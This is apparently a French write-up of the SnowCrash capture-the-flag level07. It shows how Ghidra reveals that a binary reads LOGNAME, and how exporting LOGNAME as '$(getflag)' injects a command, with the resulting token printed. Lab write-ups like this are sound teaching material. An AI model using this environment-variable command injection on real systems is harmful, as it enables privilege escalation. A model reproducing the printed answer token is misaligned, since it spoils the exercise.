

Le level07 contient un binaire :
```bash
scp -P 4242 level07@127.0.0.1:/home/user/level07/level07 .
```

Après décompilation avec Ghidra on voit que le binaire appelle la variable d'environnement **LOGNAME**


Il faut donc remplacer la variable LOGNAME par un appel à getflag:
```bash
export LOGNAME='$(getflag)'
```

On obtient : 
```bash
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
